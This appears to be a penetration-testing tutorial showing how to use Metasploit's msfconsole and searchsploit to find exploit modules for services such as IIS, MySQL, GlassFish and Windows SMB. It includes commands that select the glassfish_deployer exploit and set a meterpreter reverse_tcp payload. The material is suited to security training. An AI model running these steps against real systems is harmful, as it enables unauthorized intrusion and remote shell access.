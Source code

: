 Display all the services and the respective open ports.

```
services
```

How do we utilize this particular service information to find and identify vulnerabilities?

The first thing we can do is just utilize the exact service version or I can search for exploits.

```
search type:exploit name:Microsoft IIS
search type:exploit name:MySQL 5.5
search Sun GlassFish
```

How do we check as to whether this particular exploit module will work on the open source version of GlassFish 4.0?

```
use exploit/multi/http/glassfish_deployer
info
set payload windows/meterpreter/reverse_tcp
show options
```

What values we need to change.

```
services
```

This is how you would identify an exploit module through the service version. This is just manual vulnerability scanning.

```
back
```

Explore the services page

```
services
```

The SMB exploit for Windows Server 2008 R2.

Utilize the MSFconsole search utility. Alternatively, we can also use an inbuilt utility that's part of Kali Linux called searchsploit. Searchsploit is a command line utility that allows your to search the ExploitDB database for exploits and we can then limit the results to only show Metasploit exploits.

searchsploit will bring up exploits or exploit code that is not available within the MSFconsole, and it will also display MSF modules. So we want to limit the results to only display the MSF exploit modules.

We'll try and find exploits for Microsoft Windows SMB.

```
searchsploit "Microsoft Windows SMB"
```
